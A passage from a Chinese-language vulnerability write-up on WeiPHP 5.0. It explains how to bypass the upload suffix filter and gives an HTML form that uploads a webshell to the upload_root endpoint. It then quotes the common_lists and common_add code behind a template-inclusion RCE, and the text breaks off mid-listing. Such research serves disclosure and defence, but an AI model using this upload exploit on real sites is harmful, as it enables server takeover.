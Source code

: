 虽然他做了如上的检测，但是后缀只 ban 了 php，有的可以使用 phtml 这种其它后缀绕过，一些版本可以用末尾加空格绕过，而且上传成功的 json 字符串里面也包含路径信息

构造一个 public/index.php/home/File/upload\_root post 传输数据的表单 就可以直接 shell 了

```plain
<html>
<body>
<form action="http://127.0.0.1/public/index.php/home/File/upload_root" method="post"
enctype="multipart/form-data">
<input type="file" name="download" id="file" />  
<br />
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

### 0x03 Weiphp5.0 前台 rce v2.0

这个 rce 也是一直在网上找不到的 关键点在于 在 application/common/controller/Base.php/中的 common\_add 方法和 common\_list 方法，两个方法都有一个共同点 就是$templateFile 都可通过参数绑定的方式来进行文件包含渲染

```plain
public function common_lists($model = null, $templateFile = '', $order = 'id desc')
    {
        // 获取模型信息
        is_array($model) || $model = $this->getModel($model);
        $list_data = $this->_get_model_list($model, $order);
        $this->assign($list_data);

        empty($templateFile) && $templateFile = 'lists';

        return $this->fetch($templateFile);
    }
```

```plain
public function common_add($model = null, $templateFile = '', $post_data = [])
    {
        is_array($model) || $model = $this->getModel($model);
        if (request()->isPost()) {
            try {
                $Model = D($model['name']);
            } catch (\Exception $e) {
                if (strpos($e->getMessage(), 'not exists')) {
                    $Model = M($model['name']);
                } else {
                    $this->error('找不到操作模型');
                }
            }
            // 获取模型的字段信息
            $data = empty($post_data) ? input('post.') : $post_data;
            $data = $this->checkData($data, $model);
            // dump($data);exit;
            $id = $Model->insertGetId($data);
            if ($id) {
                $this->_saveKeyword($model, $id);

                // 清空缓存
                method_exists($Model, 'clearCache') && $Model->clearCache($id, 'add');

                $this->success('添加' . $model['title'] . '成功！', U('lists?model=' . $model['name'], $this->get_param));
            } else {
                $this->error($Model->getError());
            }
        } else {
```
